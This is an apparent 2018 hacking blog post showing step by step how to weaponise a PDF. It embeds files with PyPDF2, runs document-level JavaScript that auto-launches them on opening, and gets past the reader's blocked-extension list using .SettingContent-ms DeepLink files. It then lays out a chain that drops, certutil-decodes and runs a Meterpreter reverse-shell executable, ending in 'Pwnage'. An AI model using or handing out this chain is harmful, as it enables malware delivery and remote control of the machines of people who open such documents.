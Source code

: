 ```yaml
---
title: "PDF Embedding Attacks"
date: 2018-08-04T12:17:11-05:00
categories:
- Hacking
- Programming
- JavaScript
---
```


PDF, or Portable Document Format, is an incredibly complex file format, governed by many
standards and semi-standards. Like HTML and CSS, it was primarily designed for document
layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript
engine and document API that allows programmers to turn PDF documents into applications -
or vehicles for malware.

# Embedding Files in PDF Documents

It's very easy to embed any kind of file in a PDF document. Every document includes the
`EmbeddedFiles` name tree, along with support for collections of files, known as
portfolios.

Most PDF libraries provide support for this; we'll examine PyPDF2, which supports
everything we need and is pure Python.

PyPDF2's `PdfFileWriter` provides a method called `addAttachment` which takes a name
and some bytes and embeds them as a file in the PDF ([docs](https://pythonhosted.org/PyPDF2/PdfFileWriter.html?highlight=embed)).

This is how malware is usually concealed in a PDF document - as an embedded file.

# Opening Files from PDF Documents

Now that we have a payload embedded in a PDF document, we need to actually open it.
The basic method for this is to also embed a script in the PDF document. In our case, we
want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the
method `addJS`, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to `exportDataObject`,
a function provided by the PDF reader. This function takes an object with 2 parameters:

- `cName`, the name of the embedded object, and
- `nLaunch`, an instruction as to what the PDF reader should do with the exported object

`nLaunch` is just an integer, and it has three valid values:

0. Prompt the user for a path and save the file there
1. Prompt the user for a path, save the file, and ask the operating system to open it
2. Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called
`myExploit.exe`, we would add the following JavaScript:

```javascript
this.exportDataObject({
    cName: "myExploit.exe",
    nLaunch: 2,
});
```
and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately,
there's a bit more to it; Adobe Reader (and most other readers) will prevent the launch
of common executable files. For example, `.exe`, `.js`, `.vba`, and `.bat` files cannot
be opened. 

# Evading the Blacklist

There are many ways to evade the blacklist, such as Microsoft Word documents with
malicious macros embedded in them ([read more](https://isc.sans.edu/forums/diary/PDF+maldoc1+maldoc2/20079/<Paste>)),
but recently, researchers discovered that another kind of file could be used: 
`.SettingContent-ms`. As explained by [the SpecterOps team](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39), these are just XML documents pointing to specific places in 
the Windows 10 settings GUI. However, they contain a field called `DeepLink` which can
contain any arbitrary executable which will be run when the `SettingsContent-ms` file is
executed.

# Deploying a Payload

Let's bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.

## 1: Create a Payload

There are many great ways of creating effective payloads. In this case, I'll assume you
have a payload already; my payload of choice is a Meterpreter reverse shell encoded with
some type of cloaker.

## 2: Encode the Payload in Base64

We can use `certutil.exe -encode InputFile EncodedFile` on Windows or
`base64 input > output` on Linux to encode and decode files with Base64. This will let
us more readily insert it where it is needed.

## 3: Embedded Files 

We need to run 3 commands, so we'll use the above method to embed three files. They will
all be valid `SettingContent-ms` XML, differing only in the `DeepLink` node.

1. `PutFile.SettingContent-ms` which will `echo` the Base64 encoded payload to disk at a
known path (`echo b46c827y... > %APPDATA%\evil.b64`).
2. `Decode.SettingContent-ms` which will decode the Base64 encoded payload into an EXE (
`certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe`)
3. `Execute.SettingContent-ms` which will actually run that file. (`%APPDATA%\evil.exe`)

## 4: Scripts

Now, we need a single script which will run all of these:

```javascript
var files = ["PutFile", "Decode", "Execute"];
for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
}
```

## 5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move
into post-exploitation.

## Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process
into the process for our executable. To learn more about this, check out [this post](https://truesecdev.wordpress.com/2016/03/15/embedding-exe-files-into-powershell-scripts/).


# Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and
full of cruft, designed without security in mind. A black-listing method will never be
effective in eliminating all dangerous files, as we can see here. This technique requires
no exploits; we just ask the OS to run a file for us and it does so!

